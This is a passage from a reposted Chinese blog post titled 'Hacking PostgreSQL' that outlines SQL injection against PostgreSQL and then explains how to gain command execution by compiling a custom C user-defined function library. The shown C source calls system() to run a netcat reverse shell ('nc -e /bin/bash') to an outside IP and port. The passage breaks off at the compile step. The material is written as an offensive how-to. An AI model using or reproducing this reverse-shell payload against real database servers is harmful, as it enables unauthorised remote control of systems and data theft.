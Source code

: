 ```yaml
---
title: "Hacking PostgreSQL"
author: "digoal"
date:  2016-10-18
tags: [PostgreSQL , sql注入 , ssrf , PostgreSQL , hacking]
---
```

            
本文为转载文章，原文地址  
   
http://www.cnblogs.com/Yinxinghan/p/Hacking_PostgreSQL.html  
  
## 背景
这篇文章主要讲解了如何 Hacking PostgreSQL 数据库，总结了一些常用方法。   
  
## SQL 注入
大体上和 MySQL 差不多，有一些变量不一样。    
  
具体就不再举例，可以看这篇总结：PostgreSQL SQL Injection Cheat Sheet。   
    
此外，利用 sqlmap 也是一个不错的方式。   
    
## 执行命令
### C
sqlmap 给出的几个 UDF 在我本地测试并不成功，所以最好的方法是自己编译一个动态链接库。  
  
根据官方文档，我们要定义一个 PG_MODULE_MAGIC。  
  
大概是 PostgreSQL 的安全机制，在 8.2 以后需要验证这个 magic block，不然，在加在动态链接库的时候会报错：   
  
```
ERROR:  incompatible library "xxx.so": missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.
```
  
执行系统命令的动态链接库源码为：   
  
```
 1 #include "postgres.h"
 2 #include "fmgr.h"
 3 #include <stdlib.h>
 4 
 5 #ifdef PG_MODULE_MAGIC
 6 PG_MODULE_MAGIC;
 7 #endif
 8 
 9 text *exec()
10 {
11     system("nc -e /bin/bash 10.211.55.2 9999");
12 }
```
   
利用如下命令编译 .so 文件：   
  